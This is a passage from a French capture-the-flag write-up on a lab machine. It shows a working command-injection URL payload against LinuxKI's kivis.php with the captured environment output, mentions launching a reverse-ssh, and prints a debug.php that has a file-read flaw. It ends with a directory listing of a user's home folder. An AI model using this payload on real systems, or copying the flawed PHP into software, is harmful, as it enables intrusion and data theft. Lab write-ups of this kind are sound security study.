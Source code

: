 J'ai joué un peu avec le paramètre vulnérable et finalement il semblait mal digérer le point virgule :

`http://192.168.56.42/linuxki/experimental/vis/kivis.php?type=kitrace&pid=15|env;`

```
env: invalid option -- 't'
Try 'env --help' for more information.
```

Avec une syntaxe différente, en utilisant un pipe et en échappant la suite avec un octet nul j'obtient l'output que j'espère :

`http://192.168.56.42/linuxki/experimental/vis/kivis.php?type=kitrace&pid=15|env%00|`

```bash
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
JOURNAL_STREAM=9:20343
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
INVOCATION_ID=0f681eaa0c72462694ecd42c2ab56c27
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/html/linuxki/experimental/vis
```

Une fois un reverse-ssh uploadé et exécuté je commence à fureter sur le système. Je récupére par exemple le contenu du `debug.php` croisé plus tôt

```php
<!-- T-56819 - added file parameter for easier page navigation with linuxki - chris -->

<?php

if (isset($_GET['environ'])){
    echo phpinfo();
}

if (isset($_GET['file'])){
    echo file_get_contents("linuxki/experimental/vis/" . $_GET['file'] . ".php");
}


echo shell_exec("/opt/linuxki/runki -f");

?>
```

Effectivement il y avait bien un paramètre `file` mais avec un prepend + append sans compter qu'il s'agit uniquement un directory traversal et non d'une inclusion.

Un utilisateur nommé *chris* est présent sur le système et a quelques fichiers lisibles :

```shellsession
www-data@ki:/home/chris$ ls -al
total 44
drwxr-xr-x 4 chris chris 4096 Dec 21  2020 .
drwxr-xr-x 3 root  root  4096 Dec 18  2020 ..
-rw------- 1 chris chris  596 Dec 19  2020 .bash_history
-rw-r--r-- 1 chris chris  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 chris chris 3771 Feb 25  2020 .bashrc
drwx------ 2 chris chris 4096 Dec 18  2020 .cache
drwxrwxr-x 3 chris chris 4096 Dec 19  2020 .local
-rw-r--r-- 1 chris chris  807 Feb 25  2020 .profile
-rw-r--r-- 1 chris chris 1410 Dec 21  2020 module_prep.log
-rw-rw-r-- 1 chris chris  373 Dec 21  2020 reminder.txt
```